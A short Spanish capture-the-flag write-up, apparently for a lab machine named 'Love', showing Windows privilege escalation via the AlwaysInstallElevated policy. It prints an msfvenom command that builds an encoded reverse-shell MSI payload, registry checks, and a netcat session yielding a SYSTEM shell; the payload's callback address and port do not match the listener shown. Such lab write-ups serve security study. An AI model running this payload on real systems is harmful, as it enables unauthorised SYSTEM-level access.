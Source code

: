 Tenemos activado el AlwaysInstallElevated con Phoebe.

AlwaysInstallElevated es una funcionalidad que ofrece a todos los usuarios (especialmente a los usuarios con pocos privilegios) en una máquina con Windows ejecutar cualquier archivo MSI con privilegios elevados. MSI es un formato de archivo de paquete de instalación basado en Microsoft que se utiliza para instalar, almacenar y eliminar un programa.

A continuación, se muestra un ejemplo sobre cómo comprobar esta funcionalidad.

Nos creamos nuestro archivo malicioso con el payload:

```bash
msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.0.2.4 LPORT=1337 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi
```

Ahora ejecutaremos el comando de consulta del registro en este símbolo del sistema para verificar si el instalador de Windows tiene privilegios elevados o no.

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

AlwaysInstallElevated.msi

C:\Users\Phoebe\Desktop>
```

Como podemos ver en el resultado, el registro llamado “AlwaysInstallElevated” existe con un valor de dword (REG_WORD) de 0x1, lo que significa que la política AlwaysInstallElevated está habilitada.

Ejecutamos el archivo malicioso y obtenemos una rev. shell 

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.239] 50809
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

whoami
nt authority\system

hostname
Love

C:\WINDOWS\system32>
```
